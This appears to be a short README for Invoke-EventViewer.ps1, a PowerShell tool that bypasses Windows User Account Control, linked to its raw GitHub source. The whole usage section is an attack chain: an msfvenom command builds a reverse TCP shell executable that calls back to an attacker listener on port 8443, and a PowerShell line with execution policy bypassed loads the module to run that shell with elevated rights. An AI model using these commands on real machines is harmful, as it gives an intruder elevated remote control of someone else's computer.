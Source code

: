 # Name
Invoke-EventViewer.ps1

## Usage
```
#To bypass UAC
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8443 EXITFUNC=thread -f exe -o reverse.exe
powershell -ep bypass Import-Module .\Invoke-EventViewer.ps1; Invoke-EventViewer c:\temp\reverse.exe
```

## Source
https://raw.githubusercontent.com/CsEnox/EventViewer-UACBypass/main/Invoke-EventViewer.ps1
